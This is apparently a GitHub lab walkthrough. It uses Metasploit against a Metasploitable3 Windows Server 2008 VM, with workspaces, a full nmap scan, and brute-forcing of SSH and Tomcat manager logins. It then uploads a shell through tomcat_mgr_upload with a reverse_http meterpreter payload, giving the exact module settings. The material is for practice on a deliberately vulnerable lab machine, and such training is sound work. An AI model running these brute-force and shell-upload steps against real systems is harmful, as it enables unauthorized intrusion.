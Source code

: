 
We will first look into Workspaces in Kali Linux. Workspaces are used to separate the work you are doing. When you are trying to exploit a machine, you would want to enumerate the machine. Enumeration basically means gathering as much information that you can using passive scanning or OSINT. 

Inside msfconsole, when you type $`workspace`, it will tell you which workspace you are in. If you want to know how many workspaces you have and which one you are working in you use $`workspace -v`. 

If you need to create a new workspace then you type $`workspace -a test`. The asterisk symbol is pointing to the workspace that you are currently in. If you need to delete a workspace then $`workspace -d name`. If you want to change the workspace then you just type $`workspace name`

We do this in order to keep track of all the work that we are doing without getting things too confusing between them. If we need to learn more about workspace $`help workspace`

 Inside msfconsole, we run an nmap scan as now we are trying to exploit another machine which is in the same network. In our case metasploitable3 which is a Windows Server 08. So we will run an nmap scan in order to find out more about the scan. Nmap is an aggressive scanner so we do not use Nmap in the wild unless we want to go to jail. DO NOT USE IT WITHOUT PERMISSION. 
 
 $` msf6 > db_nmap -p- -sV -O 10.0.2.6` (the -p stands for open ports, -sV stands for services running, -O stands for the Operating system, the IP address will be the one of your target machine, in our case the Windows Server 08 Metasploitable3) Use the Ip address of the machine you are trying to find out. Nmap takes a while for the results to come back, so be patient. 
 
 If we type $`hosts` or $`notes` or $`services` it will give us more information such as the os name, IP address and mac address of the target machine and the pupose as well, whether it is a workstation or a server. 
 
 `Bruteforcing(SSH) Into Windows8 with Kali Linux` 
 
 Once we run an nmap we will get a list of services that are open and ports that are open. In the enumeration process when we find the information we can look for ways to bruteforce. When we ran nmap scan we can see in our particular Windows Server 08 that `ssh` port is open, so we will try and brute force the machine. We will now look for auxillary ssh scanners. 
 
 Our first step here is to look for aux ssh in msfconsole. We type $`msf6 > search type:aux ssh` We will get a list of scanners. We will find the one that will help us with our intent. In our case we are trying to brute force we will use the $`auxillary/scanner/ssh/ssh_login`. We either type $` use and the whole name or number in our case use 15`. If successful, we will see the scanner in red, which means we are inside it now. We will do $`show options` so that we can see what are the parameters that need to be set in order to get the job done. We will pay special attention to the $`yes` on $`Required` field. 

First thing we need to do is set the rhost. To do so, we type in $`set rhost 10.0.2.8` (In our case the ip address we are trying to ssh into is 10.0.2.8). In this particular case we will also $`set user_as_pass true`. We do this so that from the wordlists, it will try the username as password as well while bruteforcing. Now we will give the exploit the path for the filename which we will be using in order to try different passwords. We do that by typing $`set user_file /usr/share/wordlists/metasploit/unix_users.txt` . We will do show options one more time just to make sure that we have set all the corret parameters. We hit $`run` after this. if successful, it will tell us whether it was successful or not. If we are, then we hit $`ctrl+z` and get out of msfconsole. this only suspends the msfconsole. Once we get out, we will type $`ssh vagrant@10.0.2.8` It will prompt you for your password and you are in. 



`Exploiting an Apache Tomcat Server`

Apache Tomcat is an open-source Java Servlet and Java Server page container that lets developers implement an array of enterprise java applications. Tomcat also runs a HTTP web server environment in which Java code can run. 

So from our enumeration that we did in the workspace, we see that the Apache Tomcat server port 8282 is open. 

 ![open ports](https://user-images.githubusercontent.com/93686063/201373243-96e32798-b879-471e-b704-313bcd199a87.JPG)

After we have run nmap in our target host, we get a list of the IP addresses and the ports that are open, so we can have an idea of the ports that can be exploited. 

If we go to a browser in our kali machine and type in the ip address and port in the following way $`10.0.2.8:8282` This is the Tomcat server page, this is where the tomcat is listening. This would be an example of manual enumeration, we just put in the IP address and the port and we can see what is listening. 

In our last example we used a wordlists but now we will create our own wordlists, this is an example of us already knowing the username and password or trying to guess the username and password based on the OSINT that we have done to accurately guess the password while we are trying to brute force. There are a lot of wordlists out there which can help us to crack passwords. Below is an example of the wordlists we have in Kali Linux with common words used to usernames and passwords. The wordlist can be either a .txt file or .csv file. 



![wordlists](https://user-images.githubusercontent.com/93686063/201375979-c97a72ce-4fa5-4619-8bc0-21a0e8ac0461.JPG)

In order to create a wordlists we will go to the folder metsploit so that we can use the file in order to brute force the machine. We will open a new tab and use the nano command. $`nano hello.txt`. This will open a text file editor where we will use words which we think will be able to brute force the system successfullly. our magic word is $`sploit`. 

Now we go back to metasploit and look for a scanner. We type in $`search type: aux tomcat`. Below are the results. 

![tomcat aux](https://user-images.githubusercontent.com/93686063/201379322-41dd0e8c-fa91-45f1-b9bb-8aaec4d36156.JPG)

Among the options that we have, we will be using the $`mgr_login` module. Either type $`use 7` or $`use the explpit`. Once we are inside the module it will turn red. We will now do $`info` to see what the module does and what we need in order to exploit the module. We will first set the Rhost. $`set rhost 10.0.2.8` and we will set the Rport $`set rport 8282`. THe Rport has to be the port that the tomcat is listening on, if not we have to change it. By default mine was 8080, hence I changed it to 8282. We will also change the user_file to the file we created earlier with words we think will be able to break the machine. We will also set the user_as_pass file as True, so that it tries the same word as username and password. After we set all the parameters, we hit $`run`. The brute force begins and should display the following result. 

![run](https://user-images.githubusercontent.com/93686063/201382661-a9babdd5-0e20-404b-bbe1-ddbd03e30606.JPG)

We can see in the picture above that it found a successful login for our Tomcat Server. $`sploit` Now we will use the credentials we found in order to break into the Tomcat Server. 

We hit $`back` in order to get to the msfconsole. We will look for an exploit to upload a shell to the Server. 

$`msf6 > search type:exploit tomcat_mgr_upload` When we hit this we will find an exploit. We use that exploit. Once we get inside that exploit, like before we hit info in order to find what are the parameters that we need to set in order to exploit the server. 

The usual are $`Rhosts` and $`Rports` that we need to set in order to get the shell. THis one however some extra things such as targets. It will say Available Targets and they are $`0 Java Universal` or $`1 Windows Universal` or $`2 Linux x86`. Since we are exploiting a Windows system we will be using $`1`. 

We also need to set $`HttpPassword` and $`HttpUsername` and this is where the credential we found earlier that we found. $`sploit` is the word we will be using in order to exploit the system that we found in the earlier process. Now we need to change the Payload options. We will type $`set payload as reverse_http` and not $`reverse_tcp`. 

Now in order to set the target we do $`Set Target 1`. we do options we can see the target change. If all of our parameters are correct. We hit $`run` We should get the meterpreter shell. 



